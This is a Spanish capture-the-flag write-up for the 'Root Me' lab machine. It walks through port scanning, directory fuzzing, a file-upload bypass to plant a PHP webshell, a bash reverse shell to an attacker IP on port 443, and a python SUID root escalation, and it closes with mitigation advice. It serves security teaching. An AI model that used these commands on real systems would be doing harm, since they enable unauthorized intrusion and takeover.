 # 🔓 Root Me

## Reconocimiento

Primero realizamos un escaneo de puertos usando **Nmap**:

```bash
sudo nmap -p- -sSVC --open --min-rate 5000 -Pn 10.10.113.124 -vvv -oN escaneo.txt
```

* **-p-**: Indica que escanee todos los puertos.
* **–open**: Muestra solo puertos abiertos.
* **-sS**: **SYN Scan**, también conocido como _half-open scan._ No completa la conexión con el destino, lo que hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la **versión de servicio** que corre en cada puerto.
* **–min-rate**: Fija la **cantidad mínima** de paquetes para enviar por segundo.
* **-Pn**: **Null Ping**. Se usa por si el servidor esta bloqueando trazas **ICMP**.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><img src="../../.gitbook/assets/Nmap.png" alt=""><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Exploramos la página web y no encontramos nada dentro del código fuente.

<figure><img src="../../.gitbook/assets/site (2).png" alt=""><figcaption></figcaption></figure>

### Fuzzing

Para hacer fuzzing usamos **Gobuster**:

```bash
gobuster dir -u http://10.10.113.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

Encontramos dos directorios interesantes: **/panel** y **/uploads**

<figure><img src="../../.gitbook/assets/gobuster.png" alt=""><figcaption></figcaption></figure>

Entramos al directorio de **/panel** y descubrimos con que se pueden subir archivos.

<figure><img src="../../.gitbook/assets/panel.png" alt=""><figcaption></figcaption></figure>

Creamos un archivo **PHP** para obtener una **Webshell**.

<figure><img src="../../.gitbook/assets/payload.png" alt=""><figcaption></figcaption></figure>

## Explotación

Intentamos subir un archivo con extensión **.php**, pero la página no permite ese tipo de archivos. Luego probamos con **.pthml**, con el que tenemos éxito.

<figure><img src="../../.gitbook/assets/upload-payload.png" alt=""><figcaption></figcaption></figure>

Accedemos a la ruta **/uploads**, donde se encuentra el archivo que subimos. Hacemos clic sobre él para verificar que nuestra webshell funcione.

<figure><img src="../../.gitbook/assets/webshell.png" alt=""><figcaption></figcaption></figure>

Una vez confirmada su funcionalidad, enviamos una **reverse shell** para poder trabajar más cómodos desde consola. El comando que utilizaremos es

```bash
bash -c "sh -i >& /dev/tcp/10.9.0.2/443 0>&1"
```

Primero, codificamos el comando en formato **URL** utilizando el **Encoder** de **Burpsuite**. Luego, copiamos el comando codificado y lo pegamos en la URL (asegurándonos de tener **netcat** escuchándolo).

<figure><img src="../../.gitbook/assets/rev-shell.png" alt=""><figcaption></figcaption></figure>

Hacemos un tratamiento a la bash para trabajar más cómodos y después buscamos la **flag del usuario.**

```bash
find / -name user.txt 2>/dev/null
```

<figure><img src="../../.gitbook/assets/user-flag.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Después de encontrar la flag de user, necesitamos escalar privilegios para acceder a la **flag de root**. Buscamos archivos con permisos **SUID**:

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/python-suid.png" alt=""><figcaption></figcaption></figure>

Encontramos que **Python** tiene permisos **SUID**. Consultamos en [GTFObins](https://gtfobins.github.io/) para ver cómo explotarlo para la escalar privilegios.

Aplicamos el comando encontrado:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Con esto, obtenemos una **shell** con privilegios elevados y finalmente accedemos a la **flag de root**.

<figure><img src="../../.gitbook/assets/root-flag.png" alt=""><figcaption></figcaption></figure>

## Recomendaciones de Mitigación

1. Validación de archivos subidos:
   * Permitir solo extensiones específicas y validar el contenido del archivo.
   * Renombrar archivos subidos para evitar ejecuciones maliciosas.
2. Restringir ejecución en directorios públicos:
   * Configurar los permisos del servidor web para impedir la ejecución de scripts en directorios como **/uploads.**
3. Gestión de permisos **SUID:**
   * Revisar y eliminar archivos con permisos **SUID** innecesarios para prevenir escaladas de privilegios.
4. Cierre de puertos innecesarios:
   * Utilizar **Firewall** para limitar los puertos expuestos y reducir la superficie de ataque.
5. Actualización y monitoreo continuo:
   * Mantener los sistemas actualizados y monitorear la actividad para detectar comportamientos sospechosos.
